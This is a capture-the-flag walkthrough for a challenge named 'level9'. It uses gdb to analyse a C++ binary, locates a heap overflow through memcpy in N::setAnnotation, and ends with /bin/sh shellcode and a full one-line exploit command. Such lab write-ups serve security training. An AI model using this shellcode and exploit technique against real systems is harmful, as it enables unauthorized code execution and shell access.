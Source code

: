 ## level9
The `level9` is slightly a bit more complicated as it is written on C++ 
```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   ebp
   0x080485f5 <+1>:	mov    ebp,esp
   0x080485f7 <+3>:	push   ebx
   0x080485f8 <+4>:	and    esp,0xfffffff0
   0x080485fb <+7>:	sub    esp,0x20
   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    ebx,eax
   [...]
~$ c++filt _Znwj
operator new(unsigned int)
```
So we suspect there's a Class being created with the operator *new* and this class looks like to have a constructor
```
0x080486f6 in N::N(int) ()
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:	push   ebp
=> 0x080486f7 <+1>:	mov    ebp,esp
   0x080486f9 <+3>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080486fc <+6>:	mov    DWORD PTR [eax],0x8048848
   0x08048702 <+12>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048705 <+15>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048708 <+18>:	mov    DWORD PTR [eax+0x68],edx
   0x0804870b <+21>:	pop    ebp
   0x0804870c <+22>:	ret
```
with an
```
(gdb) info functions
[...]
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
[...]
```
We can see the class is composed with a *__constructor__* *(constructor has same name as Class)* and three methods <br> *__setAnnotation(char \*)__*, *__operator+(N&)__* and *__operator-(N&)__* <br>
We we disassembly the *setAnnotation()* function we will find some interesting things *(a call to memcpy() which we can use to overflow the heap)*
```
(gdb) disas _ZN1N13setAnnotationEPc
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
```
So the argument we pass to the prgram is being passed as argument to *setAnnotation(argv[1])* you can check it by
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) b  *0x08048670
Breakpoint 1 at 0x8048670
n
=> 0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
(gdb) x/s $eax
0xbffff85c:	 'A' <repeats 110 times>
ni
ni
ni
(gdb) i r
eax            0x804a00c	134520844
ecx            0x4141	16705                    <-------------------------
edx            0x804a07a	134520954
ebx            0x804a078	134520952
esp            0xbffff650	0xbffff650
ebp            0xbffff678	0xbffff678
esi            0x0	0
edi            0x0	0
eip            0x804867c	0x804867c <main+136>
eflags         0x200283	[ CF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

```
As we can see after passing 110 characters we overwrote by two bytes `ecx` what gives us an **__offset_** of `108`
We can also see in the `main()` that the two call to `new()` returns the two __address__ 
```
0x804a008 = first  new()
0x804a078 = second new()
```
That is exactly `0x70 bytes (112)`  from each other what is probably the `malloc(sizeof(M))` we can also see that before each call a value of `0x6c bytes (108)` is passed
```
0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
``` 
We can also verify that we are calling the __address__ of the *first new()*` to  *setAnnotation()* with the string we supplied the program 
```
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
=> 0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   
(gdb) x/4xw $esp
0xbffff6b0:	0x0804a008	0xbffff8c5	0xbffff780	0xb7d79e55
(gdb) x/s 0xbffff8c5
0xbffff8c5:	 "hello"
```
After that in `main()` we see a call to `edx` that contains the __address__ of the *second new()* `0x804a078` let put a break and check
```
(gdb) b *0x08048690
Breakpoint 2 at 0x8048690
n
=> 0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx
(gdb) x/4xw $eax
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
```
If we disassembly the `setAnnotation()` function we can see where our string is being stored
```
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax      <---------------- contain the return from strlen()
=> 0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]      <---------------- the address where our string was stored when passed to the prgram
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx          <---------------- the address to copy the string (the address of the first call to new)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
End of assembler dump.
(gdb) x/x $eax
0x6e:	Cannot access memory at address 0x6e
(gdb) ni
0x0804872c in N::setAnnotation(char*) ()
(gdb) x/x $eax
0xbffff85c:	0x41414141   
(gdb) x/x $edx
0x804a00c:	0x00000000  <---------------------- Here we have where our string is being stored if you check what is passed to memcpy() above
```

We now have enough information to try to get the flag, as we don't have any call to `system()` function here we will need to pass a *shellcode* as in `level2`
__Shell code__ `'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'` that gives us a total of `24 bytes` we know the *offset* is 108 - 24 for the shell code and 4 for the address what leaves us with *80 bytes* of random characters
```
./level9 $(python -c "print('\x90' * 80 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08')")
```
